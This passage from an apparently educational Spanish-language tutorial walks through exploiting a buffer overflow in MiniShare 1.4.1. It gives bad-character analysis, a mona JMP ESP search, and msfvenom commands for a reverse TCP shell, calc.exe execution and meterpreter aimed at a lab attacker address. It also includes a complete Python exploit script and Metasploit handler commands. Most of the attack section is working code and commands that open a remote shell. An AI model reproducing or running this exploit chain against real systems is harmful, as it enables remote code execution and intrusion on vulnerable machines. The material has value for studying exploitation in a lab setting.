

Ahora elimnamos el badchar (el primer valor de la cadena, '\x00') que nos impedia representar correctamente los caracteres y volvemos a realizar el proceso.

En la siguiente imagen podemos ver como ahora si se representa correctamente hasta el caracter señalado que es otro badchar.



El carácter que habría que eliminar ahora sería el '\x0d' y creamos un nuevo exploit (exploit6.py) y volvemos a ejecutar el proceso.

Tras realizar este procedimiento tenemos los badchars que debemos evitar: '\x00' y '\x0d'. 

### Buscar instrucción de salto a ESP
En este punto necesitamos una instrucción de salto a ESP para que desde el registro EIP saltemos a ESP, porque en este último registro es donde tendremos nuestra shellcode.

Para encontrar la instrucción de salto podemos ejecutar el siguiente comando de immunity: **!mona jmp -r esp**. Este comando nos devolverá diferentes DLL que podremos usar, en este caso nos interesa alguna que no tenga las protecciones de memoria que comentabamos al pricipio, como la que está señalada en la imagen:



Lo que nos interesa es la dirección de memoria con lo cual haremos click derecho, "Copy to clipboard, Address". 

Antes de continuar debemos tener en cuenta la diferencia entre _big endian_ y _little endian_, en el primer caso la dirección de memoria se representa tal cual está originalmente, pero en el segundo caso se representa al revés. En nuestro exploit debemos marcarlo de la segunda forma.

### Generar shellcode
Para generar el shellcode utilizaremos una herramienta de metasploit llamada **msfvenom**,ejecutando un comando con el siguiente formato: 
* **msfvenom -p _payload_ LHOST=_ip-atacante_ LPORT=_puerto-atacante_ -b _badchars_ -f _lenguaje_**  

Para nuestro será el siguiente comando, aunque puede ser otro payload que nos interese:
* **msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=443 -b "\x00\x0d -f python > shellcode.py**

En cada caso la ip cambiará y el comando lo he redirigido a un fichero que luego importaremos en el exploit y usaremos lo que se ha generado. 

Una vez generada la shellcode vamos a realizar el ataque completo de la siguiente manera:
* 1787 caracteres "A" hasta EIP
* Dirección de memoria con instrucción JMP ESP
* 20 operaciones NOP, estas instrucciones permiten que la ejecución continúe hasta que se encuentre algo que ejecutar, la shell de metasploit en nuestro caso. Si no ponemos los NOPs EIP podría no aterrizar en el principio de nuestro shellcode, saltandose muchas instrucciones y el ataque fallaría.
* Shellcode generada anteriormente

El código quedaría de la siguiente forma:
```Python
#!/usr/bin/python

import sys
import socket
from shellcode import buf
s = socket.socket()
s.connect((sys.argv[1], 80))
buff = "A"*1787+"\x53\x93\x3a\x7e"+"\x90"*20+buf
req = "GET "+buff+" HTTP/1.1\r\n\r\n"
s.send(req)
s.recv(1024)
s.close()
```
Esta parte se puede realizar de diversas formas y según lo que queramos tendríamos que cambiar la dirección de memoria y generar el shellcode correspondiente que, como en este caso lo guardamos en el fichero shellcode.py y luego importamos automaticamente.

## Lanzar calculadora remotamente
Llegados a este punto lanzar la calculadora es una tarea sencilla, simplemente tenemos que elegir el payload adecuado y el shellcode cambiará. En este caso la DLL no hay que cambiarla sirve la del punto anterior.

Para generar el shellcode ejecutamos el siguiente comando:
* **msfvenom -p windows/exec cmd="calc.exe" LHOST=10.0.2.5 LPORT=443 -b "\x00\x0d -f python > shellcode.py**

Cabe destacar que no solo podemos ejecutar la calculadora de esta forma, sino cualquier programa ejecutable mediante comando desde el CMD.

## Exploit con meterpreter
Para este caso al igual que el anterior basta con cambiar el payload, aunque también hay que cambiar la dirección de la DLL a una de tipo User32.

Generamos el nuevo payload:
* **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.5 LPORT=444 -b "\x00\x0d -f python > shellcode.py**

Tras esto abrimos metasploit y ejecutamos los siguientes comandos:
* **use multi/handler**
* **set payload windows/meterpreter/reverse_tcp**
* **set LHOST=10.0.2.5**
* **set LPORT=444**
* **exploit**

Si la configuración es correcta y se quedará a la escucha. A continuación, abrimos y minishare y ejecutamos el exploit. Como resultado nos debería salir la consola de meterpreter.




## Fuentes
https://www.youtube.com/watch?time_continue=11&v=PQJn4s4E8Os&feature=emb_logo
https://mosunit.wordpress.com/2016/03/15/exploting-buffer-overflow-minishare-1-4-1/
https://en.redinskala.com/starting-a-handler-with-metasploit/